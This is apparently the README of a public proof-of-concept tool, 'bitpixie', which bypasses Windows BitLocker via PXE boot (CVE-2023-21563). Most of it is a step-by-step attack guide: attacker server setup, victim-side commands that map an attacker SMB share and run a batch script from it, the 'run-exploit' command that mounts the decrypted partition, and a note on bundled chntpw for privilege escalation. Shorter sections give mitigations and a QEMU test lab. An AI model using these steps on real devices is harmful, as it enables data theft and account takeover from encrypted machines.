 # bitpixie Proof of Concept

## General concept of the attack
The Bitpixie bug was originally discovered by [Rairii](https://github.com/Wack0) and assigned CVE-2023-21563.
The first public demonstration of the full attack was performed by th0mas at 38c3: ["Windows BitLocker: Screwed without a Screwdriver"](https://media.ccc.de/v/38c3-windows-bitlocker-screwed-without-a-screwdriver).
Large parts of this repository are based on his work, that he also published as an article: ["Windows BitLocker -- Screwed without a Screwdriver"](https://neodyme.io/en/blog/bitlocker_screwed_without_a_screwdriver/) This article also explains potential mitigations.

[Marc André Tanner](https://github.com/martanne/bitpixie) also implemented the bitpixie exploit, you might want to check out his repository!

## Prerequisites and building process
In order to carry out this attack, the encrypted computer must meet certain requirements.
- It must use BitLocker without pre-boot authentication.
- It must be able to boot in PXE mode. Ideally, the PXE boot option is not disabled in the bios. On some systems, this attack may work even if PXE boot is disabled, as PXE boot can be enabled by connecting an external network card.
- The PCR Validation must not include `4`. Check with `manage-bde -protectors -get c:` This is default behaviour.

### Software requirements for the attacker machine
The following packages have to be installed on the attacker machine:
- dnsmasq
- impacket-smbserver
- (hivexregedit)

For debian based systems:
```bash
sudo apt install dnsmasq libwin-hivex-perl python3-impacket
```

To build the initramfs, clone the repository and execute build.sh:
```
$ git clone --depth 1 https://github.com/andigandhi/bitpixie
$ cd bitpixie
$ ./build.sh [-d|--debug]
```

See the chapter [`Building the initrd`](#building-the-initrd) for more
information.

> [!note]
> The repository with a prebuilt alpine initramfs can be found in the releases section.

## How to perform the attack
The attack consists of two separate steps.
First, a modified BCD configuration file must be created specifically for the victim.
The next step is to boot the target via PXE using the modified BCD file, so that the VMK can be extracted from memory.

The servers can be started with the script `start-server.sh`:
```
Starting the TFTP and DHCP server for PXE booting:
$ ./start-server.sh pxe <interface>

Starting the SMB server for exchanging the BCD file:
$ ./start-server.sh smb <interface>
```

To boot into the linux system through PXE-boot, press Restart while holding down the Shift key.
This will reboot the machine into Advanced Boot Options.

### Extracting the BCD file
The BCD file can be exported using `bcdedit` on the victims machine.
If you are already local Administrator you can directly extract and modify the BCD file.

Otherwise you can open a cmd.exe from within the Advanced Boot Options by clicking *Troubleshoot -> Advanced Option -> Command line (-> Skip this drive)* and enter the following commands.

```
wpeutil initializenetwork
net use S: \\10.13.37.100\smb
cd %TEMP%
copy S:\create-bcd.bat .
.\create-bcd.bat
```

The modified BCD file will be directly moved to the attacker machine so you can directly start performing the actual bitpixie attack.

![BCD File Transfer](images/grab-bcd-smb.gif)

### Breaking BitLocker
With the servers running, continue to boot the device in PXE mode.

In the Advanced Boot Options click on `Use a device` and select IPv4 PXE Boot.
The PXE boot process should start and finally drop into the Alpine initramfs.

Log in as root and perform the bitpixie exploit on the victim machine:
```
initrd:~# run-exploit /dev/sda3
```
The BitLocker partition should now be mounted at /root/mnt.
If it did not work, reboot and try it again. Sometimes the VMK is not detected / overwritten.

> [!note]
> The alpine initramfs also has [chntpw](https://pkgs.alpinelinux.org/package/edge/community/x86_64/chntpw) installed for easy privilege escalation!

Don't forget to unmount the file system after performing your changes: `umount /root/mnt`!

![VMK Extraction](images/run-exploit.gif)


## Mitigations that work
- Use BitLocker with Pre Boot Authentication (TPM+PIN) (Preferred way, since it also prevents a bunch of other attacks against BitLocker.)
- Apply patch [KB5025885](https://support.microsoft.com/en-us/topic/how-to-manage-the-windows-boot-manager-revocations-for-secure-boot-changes-associated-with-cve-2023-24932-41a975df-beb2-40c1-99a3-b3ff139f832d#bkmk_mitigation_guidelines) as described in the Microsoft guideline.
- Disable UEFI network stack to completely disable PXE (If none of the above is possible)


## How to set up a test environment
### Setting up QEMU
This exploit can be tested using QEMU.

I installed Windows 11 ([Tiny 11](https://github.com/ntdevlabs/tiny11builder)) on a newly created disk, installed all security patches and activated BitLocker.
Before creating the virtual machine, I had to edit the loader and change it to `/usr/share/OVMF/OVMF_CODE_4M.ms.fd` as shown below.

![VirtManager Settings](images/qemu-machine-settings.png)

After enabling BitLocker, change the model type of the network interface to `virtio` and set the ROM to "no" (see [this bug](https://bugs.launchpad.net/maas/+bug/1789319)).
The XML of the network interface should look lke this:
```
<interface type="network">
  <model type="virtio"/>
  <rom enabled="no"/>
  [...]
</interface>
```

### Building the initrd
The complete `bitpixie-initramfs[.gz,.xz]` can be built using the script
`./build [-d|--debug]`. If the `--debug` flag is used the temporary rootfs
directory will be not deleted in order to manually examinate it via e.g. `sudo
[chroot|arch-chroot] /path/to/temp/initramfs sh`. The final gzipped initramfs
is automatically transfered to the `pxe-server/` directory.

The initramfs can be tested locally on the terminal via the example QEMU
command:

```
# Install qemu-system-x86_64 (minimal configuration)
# $ apt install qemu-system-x86
# Note: For more information see e.g. https://wiki.ubuntuusers.de/QEMU/
qemu-system-x86_64 \
  -m 1G -enable-kvm  \
  -kernel pxe-server/linux \
  -initrd pxe-server/bitpixie-initramfs \
  -append "console=ttyS0" \
  -nographic
```

> [!NOTE]
> There are currently two user: `root` and `bitpix`. Login as `root`.

If a simple QEMU ethernet connection is required, the following flags can be
added:

```
# Extend QEMU with network capacity
# For more information see:
#   https://wiki.gentoo.org/wiki/QEMU/Options#Networking
#   https://wiki.archlinux.org/title/QEMU#Networking
#   https://wiki.qemu.org/Documentation/Networking
#
qemu-system-x86_64 \
  ... \
  -netdev user,id=net0 -device virtio-net-pci,netdev=net0
```

> [!NOTE]
> If a specific functionality is missing then this could be due to a not loaded
> driver. All loaded drivers can be displayed with `lsmod` and loaded with
> `modprobe DRIVER`.
> To brutally load all modules (and probably trigger kernel crashes) the
> following command can be used:
> ```
>   $ find /lib/modules/5.14.0-1-amd64/ -name '*.ko' -exec sh -c 'modprobe $(basename {} | cut -d'.' -f1)' sh {} \;
> ```

## Alternative Method of obtaining the BCD (not recommended)
Boot the victim system into the initramfs using PXE boot: `./start-server.sh get-bcd <interface>`
On the victim machine you can identify the drive containing the Windows installation (often /dev/sda).

On the attacker machine execute the BCD extractor script:
```
$ ./grab-bcd.sh /dev/sda
[+] Info: Grabbing disk and partition GUIDs via SSH...
[...]
[+] Info: Created modified BCD file: pxe-server/Boot/BCD
```
This script obtains the disk and partition GUID from the victim computer and creates a registry patch file.
Afterwards the BCD-file gets patched and copied to pxe-server/Boot/BCD.
> [!note]
> The template file file needs to be served as `Boot\BCD` via PXE.

Now you are ready to perform the actual attack!
Reboot the victim system into the startup settings again.
